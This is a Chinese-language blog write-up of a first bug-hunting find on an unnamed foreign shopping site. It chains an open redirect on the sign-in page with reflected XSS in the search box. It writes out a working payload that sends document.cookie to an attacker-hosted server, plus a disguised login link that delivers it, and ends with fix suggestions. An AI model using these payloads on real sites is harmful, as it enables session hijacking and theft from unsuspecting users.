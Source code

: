 
# （真实世界）我的第一次真实对国外某购物平台web漏洞挖掘

- CSRF - 低危
- XSS - 低危

这两组合起来就完全不一样一点的，个人觉得比原本高一些

**危害：窃取用户敏感数据、用户cookie、钓鱼操作 等...**

## 前言

**这是我第一次，真实世界的web漏洞挖掘（csrf + xss）**

**虽然这两个漏洞都比较简单，但这是我第一次的真实漏洞挖掘，当然要记录一下，哪怕再简单**  
**虽然这两个漏洞都比较简单，但这是我第一次的真实漏洞挖掘，当然要记录一下，哪怕再简单**  
**虽然这两个漏洞都比较简单，但这是我第一次的真实漏洞挖掘，当然要记录一下，哪怕再简单**

**这次漏洞挖掘是无意的，这是我在做题的时候，题目需要我进行信息收集，我收集到相关的一个网站，于是在这个网站多看了几眼，发现了漏洞**

---

首先我打开这个网站的第一件事，也是最简单的：**查看源代码**

![在这里插入图片描述](https://img-blog.csdnimg.cn/2a17b468756548dca95cafe65ce2e7ae.png)

源代码：

![在这里插入图片描述](https://img-blog.csdnimg.cn/c2062d341aed4dc98c07d902fa12bf92.png)

在源代码中发现这一个url

---

## url参数重定向 - CSRF

分析：

	/sign-in?redirect=

这里我测试过，因为这里是用户登录页面

- 如果用户未登录，则在用户登录成功后，重定向到redirect参数指定的url
- 如果用户已登录，则直接跳转到redirect参数指定的url

当我尝试修改redirect参数，改成百度：

![在这里插入图片描述](https://img-blog.csdnimg.cn/1f89210d99db4545814f1c851143d2cf.png)

在已登录状态下，确实重定向到百度去了

---

## csrf的好兄弟

我们都知道，单单一个csrf通常情况下危害不大，甚至可以忽略不计，没啥用

但是csrf可以搭配其他漏洞来做一套组合拳，这个漏洞就是xss.

通过csrf漏洞将受害者重定向到被攻击者控制的具有xss漏洞的页面上，执行恶意js代码

通过这套csrf + xss

攻击者很容易获得一些信息，如：

- 用户的cookie
- 攻击者期望的操作，例如：下单、修改账户等相关操作
- 社会工程 - 攻击者利用xss构建恶意代码，攻击者诱导受害者填写隐私信息以获取攻击者想要获取的受害者的信息

等等等等

---

**所以现在我们的当务之急应该寻找xss漏洞，打一套组合拳**

## XSS - 反射型

果不其然，经过tryhackme的训练，我一下子就找到了

就在网站主页的**搜索功能**！

一开始尝试sql注入，但是无果

但是第二次尝试寻找漏洞的时候，我发现输入的内容会拼接到回显页面中，于是开始尝试xss


![在这里插入图片描述](https://img-blog.csdnimg.cn/e93219f81ba84342805ec3f434356d0a.png)

它直接镶嵌到span标签中

我直接绕出去了，毫无难度，成功找到反射xss漏洞

---

## XSS + CSRF - 组合拳

**兔年万事如意，心想事成**

现在我们可以尝试简单的利用xss+csrf获取用户的cookie

构造XSS Payload:

	https://www.nonono.co.uk/search?nonono='<script>fetch('//<攻击者http服务器>/?cookie='+btoa(document.cookie));</script>

**注意：这里的fetch函数中的url不能携带有http://或https://，否则会失败，所以使用//**

**最好不要有空格，因为此payload稍后将会放到url参数中**

****

我们可以直接验证此payload是否有效:

![在这里插入图片描述](https://img-blog.csdnimg.cn/d0e27c9dd0364534a6fa86a1b05174c6.png)

可以看到它携带着cookie去请求攻击者托管的http服务器去了！

![在这里插入图片描述](https://img-blog.csdnimg.cn/ed9395ed2e31404fa59b6b51898535d5.png)


现在让我们将xss和csrf组合起来：

实现**让用户点击我们的精心设计过的登录url，即可窃取该用户的cookie等**

### **如果通过钓鱼等方式令网站管理员点击此恶意链接会发生什么事？**

我很难想象，毕竟这个平台有些地方甚至没有csrf防护，也别忘了我们还有xss

### 回归正题

首先，随便注册个账户并登录

![在这里插入图片描述](https://img-blog.csdnimg.cn/cc48a844fbd3461fa8d30d5f725f0576.png)

XSS Payload:

	https://www.nonono.co.uk/search?nonono='<script>fetch('//<攻击者http服务器>/?cookie='+btoa(document.cookie));</script>

CSRF Payload:

	https://www.nonno.co.uk/sign-in?redirect=https://www.nonono.co.uk/search?nonono='<script>fetch('//<攻击者http服务器>/?cookie='+btoa(document.cookie));</script>

解析：当已登录用户点击此csrf payload的url，将重定向到xss漏洞处并执行我们指定的恶意js代码，这里的js代码使用fetch发送请求到我们攻击者的http服务器并附带cookie

![在这里插入图片描述](https://img-blog.csdnimg.cn/ed9395ed2e31404fa59b6b51898535d5.png)

**至此漏洞利用完成，攻击者将获取受害者的cookie，甚至其他任何操作！**

**只要适当的将payload进行urlencode，受害者可能根本无法判断！**

---

## 漏洞修补建议

### CSRF

- 不要使用url参数(GET or POST)来进行重定向
- 完善各个功能的csrf防护

### XSS

- 做好用户输入检测，检测到黑名单字符直接禁止访问
- 过滤特殊字符

---

## 结束

事实上我这里只找了一个xss和一个csrf漏洞，很难猜测其他地方是否还存在其他漏洞。

希望平台管理方认真做好安全防护

这也是我的第一次真实的web漏洞挖掘，我非常的激动，这是一次无意的漏洞挖掘，真的是无意的

---

不说了，跑路了


